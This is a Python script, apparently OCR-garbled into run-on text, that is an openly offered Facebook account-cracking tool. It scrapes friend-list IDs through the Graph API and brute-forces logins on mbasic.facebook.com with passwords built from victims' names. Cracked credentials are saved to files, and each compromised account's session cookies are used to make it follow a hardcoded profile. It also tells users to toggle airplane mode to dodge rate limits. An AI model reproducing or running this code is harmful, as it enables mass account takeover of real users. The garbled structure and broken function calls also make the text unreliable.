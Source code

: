 #!/usr/bin/python3import ostry:    import requestsexcept ImportError:    print('\n [âœ“] installing requests !...\n')    os.system('pip install requests')try:    import concurrent.futuresexcept ImportError:    print('\n [âœ“] installing futures !...\n')    os.system('pip install futures')try:    import bs4except ImportError:    print('\n [âœ“] installing bs4 !...\n')    os.system('pip install bs4')import requests, os, re, bs4,platform, sys, json, time, random, datetime, subprocess, threading, itertools,base64,uuid,zlibfrom concurrent.futures import ThreadPoolExecutor as mrCHANDfrom datetime import datetimefrom bs4 import BeautifulSoupct = datetime.now()n = ct.monthbulan = ['January', 'February', 'March', 'April', 'May', 'June', 'July', 'Agustus', 'September', 'October', 'November', 'December']try:    if n < 0 or n > 12:        exit()    nTemp = n - 1except ValueError:    exit()current = datetime.now()ta = current.yearbu = current.monthha = current.dayop = bulan[nTemp]P = '\x1b[1;97m' # M = '\033[1;31m' # H = '\033[1;32m' # K = '\x1b[1;97m' # B = '\x1b[1;97m' # U = '\x1b[1;97m' # O = '\x1b[1;97m' # N = '\x1b[0m'    # my_color = [ P, M, H, K, B, U, O, N]warna = random.choice(my_color)data,data2={},{}aman,cp,salah=0,0,0ubahP,fuck,pwBaru=[],[],[]ok = []cp = []id = []user = []loop = 0url_lookup = "https://lookup-id.com/"url_mb = "https://m.facebook.com"url_ip = "https://www.httpbin.org/ip"header_grup = {"user-agent": "Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"}bulan_ttl = {"01": "January", "02": "February", "03": "March", "04": "April", "05": "May", "06": "June", "07": "July", "08": "Augustus", "09": "September", "10": "October", "11": "November", "12": "December"}done = Falsedef jalan(z):    for e in z + '\n':        sys.stdout.write(e)        sys.stdout.flush()        time.sleep(0.01)logo= """ \033[1;32m    _           _____        _____  \033[1;31mU  /"\  u      |_ " _|      |" ___|  \/ _ \/         | |       U| |_  u  \033[1;32m/ ___ \        /| |\      \|  _|/  /_/   \_\      u |_|U       |_|     \033[1;35m \\    >>      _// \\_        (\\,-  (__)  (__)    (__) (__)    (__)(_/  ðŸ¥µ \033[1;33m/ALL\        \033[1;34m/THE\      \033[1;31m/FUCK\ ðŸ¥µ\033[1;35mâœ…____________________ðŸ’Ÿ________________________âœ…  Auther   : \033[1;31mCH4ND \033[1;37m& \033[1;33m50N4  \033[1;37mTEAM     : \033[1;34m5H4FQU \033[1;37m& \033[1;31mN4533R \033[1;37m& \033[1;33m4L1Y4N \033[1;37m& \033[1;35mJ4H4Z418  \033[1;36mYoutube  : CHAND TRICKER  \033[1;37mNote     : FREE TRAILER FEWS DAYS  \033[1;35mGroup Fb : Facebook Zone ðŸ˜ŠðŸ™ˆâœ…____________________ðŸ’Ÿ________________________âœ…"""def hasil(OK,cp):	if not len(OK) != 0:	    pass	if len(cp) != 0:	    print('\n\n  \x1b[1;97m Total OK : \x1b[1;97m %s  \x1b[1;97mCHAND_OK.txt' % (H, P, str(len(ok))))	    print('  \x1b[1;97m Total CP :\x1b[1;97m   %s \x1b[1;97mCHAND_CP.txt' % (H, P, str(len(cp))))	    input("\x1b[1;97mPress enter to back CHAND Menu ")	    mr()def mr():    os.system('clear')    print(logo)    ipm = requests.get(url_ip).json()    todz = ''    IP = ipm['origin']    print    print(' \033[1;33m[1] Start File Cloning')    print(' \033[1;32m[2] Create File \033[1;37m[Best-Method]')    print(' \033[1;31m[E] exit ')    print('')    _mr___ = input(' \033[1;37m[?] \033[1;37mChoose option : ')    if _mr___ in ('1', '01'):        __xxx__().chand(id)    if _mr___ in ('2', '02'):        create_file()    if _mr___ in ('E', 'ee'):        passclass __xxx__:    def __init__(self):        self.id = []    def chand(self,id):        os.system("clear")        print(logo)        self.cnt = input('\033[1;37mPut File Name : ')        self.id = open(self.cnt).read().splitlines()        os.system('clear')        print(logo)        print("")        ___worldwide___ = ('y')        if ___worldwide___ in ('yes','Yes','Y', 'y'):            self.__pler__()        else:            print(' \033[1;37m[!] Choose Correct One');            self.chand(id)    def __metode__(self, user, __chi__, cebok):        global ok,cp,loop        sys.stdout.write(f"\r \x1b[1;97m[CHAND] {loop}|{len(self.id)} \033[1;32m[ok][{len(ok)}] \033[1;31m[cp][{len(cp)}] ")        sys.stdout.flush()        try:            for pw in __chi__:                pw = pw.lower()                session=requests.Session()                header = {                    "Host":cebok,                    "upgrade-insecure-requests":"1",                    "user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+",                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",                    "dnt":"1",                    "x-requested-with":"mark.via.gp",                    "sec-fetch-site":"same-origin",                    "sec-fetch-mode":"cors",                    "sec-fetch-user":"empty",                    "sec-fetch-dest":"document",                    "referer":"https://m.facebook.com/",                    "accept-encoding":"gzip, deflate br",                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"                }                r = session.get(f"https://{cebok}/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F", headers=header)                das = {                    "lsd":re.search('name="lsd" value="(.*?)"', str(r.text)).group(1),                    "jazoest":re.search('name="jazoest" value="(.*?)"', str(r.text)).group(1),                    "uid":user,                    "flow":"login_no_pin",                    "pass":pw,                    "next":"https://developers.facebook.com/tools/debug/accesstoken/"                }                header1 = {                    "Host":cebok,                    "cache-control":"max-age=0",                    "upgrade-insecure-requests":"1",                    "origin":"https://"+cebok,                    "content-type":"application/x-www-form-urlencoded",                    "user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36",                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",                    "x-requested-with":"XMLHttpRequest",                    "sec-fetch-site":"same-origin",                    "sec-fetch-mode":"cors",                    "sec-fetch-user":"empty",                    "sec-fetch-dest":"document",                    "referer":"https://"+cebok+"/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F",                    "accept-encoding":"gzip, deflate br",                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"                }                po = session.post(f"https://{cebok}/login/device-based/validate-password/?shbl=0", data = das, headers = header1, allow_redirects = False)                if 'c_user' in session.cookies.get_dict():                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])                    print(f"\r{H} [CHAND-OK] {user} | {pw}")                    wrt = '%s|%s' % (user,pw)                    ok.append(wrt)                    open('CHAND_OK.txt' , 'a').write('%s\n' % wrt)                    self.follow(session,coki)                    break                elif 'checkpoint' in session.cookies.get_dict():                    try:                        tokenz = open('.token.txt').read()                        cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={tokenz}').json()['birthday']                        month, day, year = cp_ttl.split('/')                        month = bulan_ttl[month]                        print('\r%s [CHAND-CP] %s | %s ' % (M, user, pw))                        wrt = '%s|%s' % (user,pw)                        cp.append(wrt)                        open('CHAND_CP.txt' , 'a').write('%s\n' % wrt)                        break                    except (KeyError, IOError):                        month = ''                        day   = ''                        year  = ''                    except:                        pass                    print('\r%s [CHAND-CP] %s | %s ' % (M, user, pw))                    wrt = '%s|%s' % (user,pw)                    cp.append(wrt)                    open('CHAND_CP.txt' , 'a').write('%s\n' % wrt)                    break                else:                    continue            loop+=1        except:            self.__metode__(user, pw, cebok)    def follow(self, session, coki):        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100007607054845', cookies={'cookie': coki}).text, 'html.parser')        get = r.find('a', string='Ikuti').get('href')        session.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text    def __pler__(self):        print('\033[1;32m[1] Crack With Auto Pass ')        print('\033[1;36m[2] Crack With Name Digit Pass')        chi = input('\n \033[1;37m[?] Choose: ')        if chi == '':            print('\nSelect Correct One')            self.__pler__()        elif chi in ('1', '01'):            os.system("clear")            print(logo)            print("\033[1;31m\rUse flight (\033[1;37mairplane) \033[1;31mmode before use\033[1;32m")            print(47*"-")            print('\033[1;32m Total Auto file IDs : %s ' % len(self.id))            print('\033[1;32m Cracking Started...')            print(47*"-")            with mrCHAND(max_workers=30) as CHANDworld:                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia                    try:                        uid, name = zsb.split('|')                        xz = name.split(' ')                        first, last = name.split(' ')                        firstl = first.lower()                        lastl = last.lower()                        firsts = first.capitalize()                        lasts = last.capitalize()                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123"]                        else:                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123"]                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123"]                        CHANDworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")                    except:                        pass            hasil(ok,cp)        elif chi in ('2', '02'):            os.system("clear")            print(logo)            print("\033[1;37m\rEnter Last Name Digits\033[1;37m\n")            p1 = input('  Name + 1 : ')            p2 = input('  Name + 2 : ')            p3 = input('  Name + 3 : ')            p4 = input('  Name + 4 : ')            os.system("clear")            print(logo)            print("\033[1;31m\rUse flight (airplane) mode before use\033[1;37m")            print(47*"-")            print('\033[1;37m Total IDs : %s ' % len(self.id))            print('\033[1;37m Cracking Started...')            print(47*"-")            with mrCHAND(max_workers=30) as CHANDworld:                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia                    try:                        uid, name = zsb.split('|')                        xz = name.split(' ')                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:                            pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345"]                        else:                            pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345"]                        CHANDworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")                    except:                        pass            hasil(ok,cp)        else:            print('\n Select Valid One')            self.__pler__()def create_file():    os.system('clear')    print(logo)    print('  \033[1;37m[1] Create file manual')    print('  \033[1;33m[2] Create file auto')    print('  \033[1;31m[B] Back to main menu')    print(50*'-')    cf = input('  \033[1;37mChoose method: ')    if cf =='1':        manual()    elif cf =='2':        auto()    elif cf =='3':        likes()    elif cf =='3' or cf =='b' or cf =='B':        main()    else:        print('\n  Choose correct option ...')        time.sleep(1)        create_file()def manual():    try:        token = open('/sdcard/tokenofl.txt', 'r').read()    except FileNotFoundError:        login()    try:        r = requests.get('https://graph.facebook.com/me?access_token='+token).text        q = json.loads(r)        uname = q['name']    except (KeyError):        login()    os.system('clear')    print(logo)    print('  Name: '+uname)    print(50*'-')    limit = int(input('  How many ids do you want to add ? '))    save_file = input('  Save file as: ')    t = 0    for u in range(limit):        t+=1        try:            ids = input('  Put id no%s: '%t)            r = requests.get('https://graph.facebook.com/'+ids+'/friends?limit=5000&access_token='+token).text            q = json.loads(r)            for j in q['data']:                uids = j['id']                names = j['name']                first_name = names.split(' ')[0]                try:                    last_name = names.split(' ')[1]                except:                    last_name = 'Khan'                with open('/sdcard/'+save_file, 'a') as rd:                    rd.write(uids+'|'+first_name+'|'+last_name+'\n')        except KeyError:            print('  No friend for '+ids)            pass    print(50*'-')    print('  Ids saved as: '+save_file)    print(50*'-')    input(' Press enter to back')    mr()    def auto():    os.system('rm -rf temp*')    try:        access_token = open('/sdcard/tokenofl.txt', 'r').read()    except:        login()    try:        r = requests.get('https://graph.facebook.com/me?access_token='+access_token).text        q = json.loads(r)        uname = q['name']    except:        login()    os.system('clear')    print(logo)    print('  Logged user: '+uname)    print(50*'-')    nusrat = []    try:        limit_user = int(input('  How many ids do you want to add ? '))    except:        limit_user = 1    count = 0    for fir in range(limit_user):        count +=1        udit = input('  Put id%s: '%(count))        try:            tfile = open('/sdcard/tokenofl.txt','r').read()            fr = requests.get('https://graph.facebook.com/'+udit+'/friends?limit=5000&access_token='+tfile).text            qfr = json.loads(fr)            temp_save = open('temp.txt', 'a')            for data in qfr['data']:                uids = data['id']                if uids in nusrat:                    pass                else:                    nusrat.append(uids)                    temp_save.write(uids+'\n')            temp_save.close()        except KeyError:            if 'invalid' in str(fr):                print('  Logged token has expired ...')                pass            else:                print('  No friends found for user: '+udit)                pass    os.system('clear')    print(logo)    print('   Total ids: '+str(len(nusrat)))    print(50*'-')    try:        ask_link = int(input('  How many links do you want to grab? '))    except:        ask_link = 1    completed = 0    for links in range(ask_link):        completed +=1        li = input('  %s Link start with: '%completed)        os.system('cat temp.txt | grep "'+li+'" >> temp2.txt')    save_file = input('  Save file as: ')    os.system('clear')    lines = open('temp2.txt', 'r').readlines()    print(logo)    print('  Total ids to grab: '+str(len(lines)))    print('  Grabbing Process has started')    print(50*'-')    fileid = 'temp2.txt'    fileidopen = open(fileid, 'r').read().splitlines()    dill = []    for ids in fileidopen:        try:            tfile = open('/sdcard/tokenofl.txt','r').read()            rg = requests.get('https://graph.facebook.com/'+ids+'/friends?limit=5000&access_token='+tfile).text            rgq = json.loads(rg)            idsave=open('/sdcard/'+save_file, 'a')            for inayat in rgq['data']:                uids = inayat['id']                dill.append(uids)                nm = inayat['name']                first_name = nm.split(' ')[0]                try:                    last_name = nm.split(' ')[1]                except:                    last_name = 'Khan'                idsave.write(uids+'|'+first_name+'|'+last_name+'\n')            print('  Grabbed from: '+ids)           # print('  Total friends: '+str(len(uids)))            print('  Token status: Live')            print(50*'-')            idsave.close()        except Exception as e:            #print(e)            if 'invalid' in str(rg):                print('  Token has expired, try again ...')                os.system('rm -rf temp*')                pass            else:                print('  Grabbed from: '+ids)                print('  Friendlist ids: 0')                print('  Token status: Live')                print(50*'-')                os.system('rm -rf temp*')                pass    lenid = open('/sdcard/'+save_file, 'r').readlines()    print('  Grabbing Process has completed ')    os.system('rm -rf temp*')    print('  Total ids grabbed: '+str(len(lenid)))    print('  File saved as: /sdcard/'+save_file)    print(50*'-')    input('  Press enter to back ')    Chand()          Mr()
